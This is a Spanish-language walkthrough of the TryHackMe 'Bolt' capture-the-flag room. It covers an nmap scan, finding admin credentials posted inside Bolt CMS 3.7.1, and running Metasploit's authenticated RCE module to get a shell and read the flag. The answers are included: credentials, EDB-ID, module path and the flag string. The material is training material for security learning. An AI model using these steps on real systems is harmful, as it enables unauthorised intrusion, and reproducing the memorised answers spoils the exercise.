# CTF - Bolt - TryHackMe
> [!tip] **Resumen del Ejercicio: Explotación de Bolt CMS**
> **Objetivo**: Realizar un análisis de la máquina, identificar y explotar la vulnerabilidad de **Bolt CMS 3.7.1**, obteniendo acceso mediante **Authenticated Remote Code Execution (RCE)** y extrayendo la flag.
> 
> **Fases del Ejercicio**:
> 1. **Preparación del laboratorio**:
>    - Conectamos a la VPN de TryHackMe.
>    - Identificamos la **IP de nuestra máquina** (`10.9.0.15`) y la **IP de la víctima** (`10.10.60.135`).
> 2. **Reconocimiento con Nmap**:
>    - Escaneamos todos los puertos con `nmap -p- -sS -sC -sV --open --min-rate 5000 -n -vvv -Pn`.
>    - Identificamos los servicios en ejecución:
>      - **22/tcp** → OpenSSH 7.6p1
>      - **80/tcp** → Apache 2.4.29
>      - **8000/tcp** → **Bolt CMS 3.7.1** corriendo en PHP 7.2.32.
> 3. **Enumeración del CMS**:
>    - **Identificamos Bolt CMS** mediante `http-generator: Bolt` en los resultados de **Nmap** y en la **meta-etiqueta** del código fuente.
>    - Descubrimos un **usuario (`bolt`)** y su **contraseña (`boltadmin123`)** en mensajes dentro del CMS.
>    - Confirmamos la **versión exacta**: `Bolt 3.7.1`.
> 4. **Búsqueda y explotación de vulnerabilidades**:
>    - Encontramos un exploit en **Exploit-DB** con **EDB-ID: 48296**.
>    - Identificamos el módulo de Metasploit: `exploit/unix/webapp/bolt_authenticated_rce`.
>    - Configuramos el exploit en **Metasploit** con los valores correctos (`LHOST`, `RHOST`, `USERNAME`, `PASSWORD`).
>    - Ejecutamos el exploit y obtenemos **acceso remoto** con una shell.
> 5. **Búsqueda de la Flag**:
>    - Verificamos los permisos con `whoami`.
>    - Utilizamos `find` para localizar `flag.txt` en el sistema.
>    - Leemos el contenido de la flag:  
>      - **Flag**: `THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}`
> 
> **Herramientas**:
> - **Nmap**: Escaneo de puertos y detección de CMS.
> - **Gobuster**: Enumeración de rutas web.
> - **Metasploit**: Explotación de **Bolt CMS 3.7.1** con **RCE autenticado**.
> - **Exploit-DB**: Identificación del exploit `EDB-ID: 48296`.
> 
> **Conclusión**:
> Logramos explotar **Bolt CMS** mediante **Authenticated RCE**, obteniendo acceso al sistema y recuperando la flag. Este ejercicio refuerza la importancia de mantener los CMS actualizados y evitar la exposición de credenciales en mensajes internos.

## 0 ➜ Preparación del laboratorio
➜ **Kali** > `cd Downloads`  
➜ **Kali** > `sudo openvpn tu_usuario.ovpn`  

➜ **Kali** > `ip a`

- **Nuestra IP**: `10.9.0.15`
- **IP Víctima**: `10.10.60.135`
## 1 ➜ Task 1 - Deploy the machine
### 1.1 ➜ Introducción
*This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution. You should wait for at least 3-4 minutes for the machine to start properly.*
*If you have any queries or feedback you can reach me through the TryHackMe [Discord server](https://discord.gg/F7ERYzz) or through [Twitter](https://twitter.com/0x9747/).*  
*Start the machine*
***Esta sala está diseñada para que los usuarios se familiaricen con Bolt CMS y cómo puede ser explotado mediante ejecución remota de código autenticada. Debes esperar al menos 3-4 minutos para que la máquina se inicie correctamente.***
***Si tienes alguna pregunta o comentario, puedes contactarme a través del servidor de Discord de TryHackMe o por Twitter.***
***Inicia la máquina.***


_______

## 2 ➜ Hack your way into the machine!
### 2.1 ➜ nmap
*What port number has a web server with a CMS running?*
***¿Qué número de puerto tiene un servidor web con un CMS en ejecución?***
➜ **Kali** > `nmap -p- -sS -sC -sV --open --min-rate 5000 -n -vvv -Pn 10.10.60.135`


> [!abstract] **Resumen de Resultados - Nmap**
> - **Objetivo escaneado:** `10.10.60.135`
> - **Método utilizado:** `nmap -p- -sS -sC -sV --open --min-rate 5000 -n -vvv -Pn`
> - **Tiempo total del escaneo:** 38.36 segundos
> - **Puertos abiertos detectados:**
>   - **22/tcp** → OpenSSH 7.6p1 (Ubuntu Linux)
>   - **80/tcp** → Apache HTTP Server 2.4.29 (Ubuntu)
>   - **8000/tcp** → Servidor HTTP (Bolt CMS, PHP 7.2.32)
> - **Observaciones clave:**
>   - El servidor en **8000/tcp** ejecuta Bolt CMS con PHP 7.2.32.
>   - Apache muestra la página de bienvenida de Ubuntu en el puerto **80**.
>   - Se identificaron claves públicas de SSH para los algoritmos RSA, ECDSA y ED25519.
>   - Se detectaron **64223 puertos cerrados** y **1309 filtrados**.
> - **Posibles vectores de ataque:** 
>   - **Exploración de vulnerabilidades** en Bolt CMS (`8000/tcp`).
>   - **Enumeración y fuerza bruta** en SSH (`22/tcp`).
>   - **Exploración de rutas web** en Apache (`80/tcp`).
>
> *(Siguiente paso recomendado: análisis de versiones en busca de vulnerabilidades conocidas).*

El servidor web con un CMS en ejecución se encuentra en el **puerto 8000/tcp**, donde se detectó **Bolt CMS** corriendo sobre **PHP 7.2.32**.
> [!abstract] **¿Qué es un CMS en este contexto?**  
> - Un **CMS (Content Management System)** es un **sistema de gestión de contenidos** que permite crear, administrar y modificar un sitio web sin necesidad de programar desde cero.  
> - En este escaneo, se detectó el **CMS Bolt** en el puerto **8000/tcp**, lo que indica que el servidor web aloja una plataforma para la gestión de contenido.  
> - **Importancia en ciberseguridad:**  
>   - Los CMS pueden tener **vulnerabilidades** explotables, como plugins desactualizados o configuraciones inseguras.  
>   - Es común encontrar paneles de administración (`/admin`, `/login`) que pueden ser objetivo de **fuerza bruta** o **explotación de credenciales filtradas**.  
>   - Algunos CMS exponen información sensible en archivos de configuración (`config.yml`, `.env`).
> - **Siguientes pasos recomendados:**  
>   - Identificar la versión exacta del CMS.  
>   - Buscar exploits conocidos asociados a esa versión.  
>   - Enumerar usuarios y directorios sensibles mediante técnicas OSINT y escaneo activo.  


___________
### 2.2 ➜ Nombre del CMS
*What is the username we can find in the CMS?*
***¿Cuál es el nombre de usuario que podemos encontrar en el CMS?***
_______

> [!danger] **Identificación del CMS y usuario en Bolt**
> - **Detectamos** que el CMS utilizado es **Bolt** gracias a varias pistas en el escaneo:
>   - **`http-generator: Bolt`** en los resultados de Nmap.
>   - **Meta etiqueta** en el código fuente: `<meta name="generator" content="Bolt">`.
>   - **Título de la página**: `"Bolt | A hero is unleashed"`.
> - Para encontrar un usuario en el CMS, **revisamos** las siguientes opciones:
>   - **Accedemos** a `http://10.10.60.135:8000/` y **exploramos** el contenido en busca de nombres visibles.
>   - **Probamos** la URL de administración: `http://10.10.60.135:8000/bolt/login` o `http://10.10.60.135:8000/bolt/`.
>   - **Ejecutamos** `gobuster` para **enumerar** rutas ocultas que puedan revelar usuarios.
>   - **Buscamos** publicaciones o comentarios en la web donde aparezca un nombre de usuario.
> - **Determinamos** las rutas de administración porque **Bolt** es un CMS con rutas por defecto bien documentadas.  
>   - En el escaneo de **Nmap**, identificamos **`http-generator: Bolt`**, lo que confirma que el sitio usa este CMS.  
>   - Al conocer el nombre del CMS, **investigamos** su estructura habitual y rutas estándar.  
>   - En general, la mayoría de los CMS tienen **rutas de administración predefinidas**, como:
>     - **`/wp-admin`** en WordPress.
>     - **`/administrator`** en Joomla.
>     - **`/bolt/`** → Panel de administración en Bolt.
>     - **`/bolt/login`** → Página de inicio de sesión en Bolt.
>   - Si estas rutas **no fueran accesibles directamente**, **las descubrimos** usando `gobuster` o revisando archivos del sitio.

➜ **Navegador** > `http://10.10.60.135:8000/`


> [!info] **Mensaje del Administrador y Departamento de TI**  
> **Mensaje para el Departamento de TI**  
>  
> Hola chicos,  
>  
> Supongo que este es nuestro foro secreto, ¿verdad? Hoy publiqué mi primer mensaje para nuestros lectores, pero parece que hay mucho espacio libre ahí fuera. ¡Por favor, revisadlo! Mi contraseña es `boltadmin123` por si la necesitáis.  
>  
> Saludos,  
> Jake (Admin)  
>  
> *Escrito por Admin el sábado 18 de julio de 2020*  
>  
> **Mensaje del Administrador**  
>  
> Hola a todos,  
>  
> Bienvenidos a este sitio, me llamo Jake y mi nombre de usuario es `bolt`. Aún soy nuevo en este CMS, así que me tomará un tiempo acostumbrarme, pero creedme que tengo un gran contenido preparado para vosotros.  
>  
> Saludos,  
> Jake (Admin)  
>  
> *Escrito por Admin el sábado 18 de julio de 2020*  

El mensaje revela información relevante del CMS **Bolt**:
1. **Usuario**: `bolt`
2. **Contraseña**: `boltadmin123`
3. **Nombre del administrador**: **Jake**

Deberiamos hacernos una lista de usuarios con Bolt Jake y Admin, que puede servir o no

### 2.3 ➜ Contraseña
*What is the password we can find for the username?*
***¿Cuál es la contraseña que podemos encontrar para el usuario?***
_____
**Contraseña**: `boltadmin123`

### 2.4 ➜ Versión CMS
*What version of the CMS is installed on the server? (Ex: Name 1.1.1)*
***¿Qué versión del CMS está instalada en el servidor? (Ejemplo: Nombre 1.1.1)***
_______
Entramos en la URL del administrador, tambien podríamos haberla encontrado haciendo una búsqueda en internet
➜ **Navegador** > `bolt login page`


➜ **Navegador** > `http://10.10.60.135:8000/bolt`

- **Usuario**: `bolt`
- **Contraseña**: `boltadmin123`

Encontramos la versión en la esquina inferior izaquierda

- Version: `Bolt 3.7.1`

### 2.5 ➜ EDB Exploit
*There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?*
***Hay un exploit para una versión anterior de este CMS que permite ejecución remota de código autenticada. Encuéntralo en Exploit DB. ¿Cuál es su EDB-ID?***
_______
➜ **Navegador** > `https://www.exploit-db.com/`
➜ **Search** > `Bolt 3.7.0`


- **EDB-ID**: `48296`

### 2.6 ➜ Metasploit
*Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)*
*Note: If you can't find the exploit module its most likely because your metasploit isn't updated. Run `apt update` then `apt install metasploit-framework`*
***Metasploit agregó recientemente un módulo de exploit para esta vulnerabilidad. ¿Cuál es la ruta completa de este exploit? (Ej: exploit/....)***
***Nota: Si no puedes encontrar el módulo de exploit, lo más probable es que tu Metasploit no esté actualizado. Ejecuta `apt update` y luego `apt install metasploit-framework`.***
__________
➜ **Kali** > `sudo msfdb init && msfconsole -q`
➜ **msf6** > `search bolt`

- **exploit**: `exploit/unix/webapp/bolt_authenticated_rce`

### 2.7 ➜ Configurar Exploit
*Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit*
***Configura LHOST, LPORT, RHOST, USERNAME y PASSWORD en msfconsole antes de ejecutar el exploit.***
________
➜ **msf6** > `use exploit/unix/webapp/bolt_authenticated_rce`
➜ **msf6** > `options`

➜ **msf6** > `set LHOST 10.9.0.15`
➜ **msf6** > `set RHOST 10.10.60.135`
➜ **msf6** > `set USERNAME bolt`
➜ **msf6** > `set PASSWORD boltadmin123`

➜ **msf6** > `exploit`


### 2.8 ➜ Encontrar Flag
*Look for flag.txt inside the machine.*
***Busca el archivo flag.txt dentro de la máquina.***
_______
➜ **#** > `whoami`
➜ **#** >`find / -type f -name "flag.txt" 2>/dev/null`
➜ **#** > `cat /home/flag.txt`

- flag: `THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}`


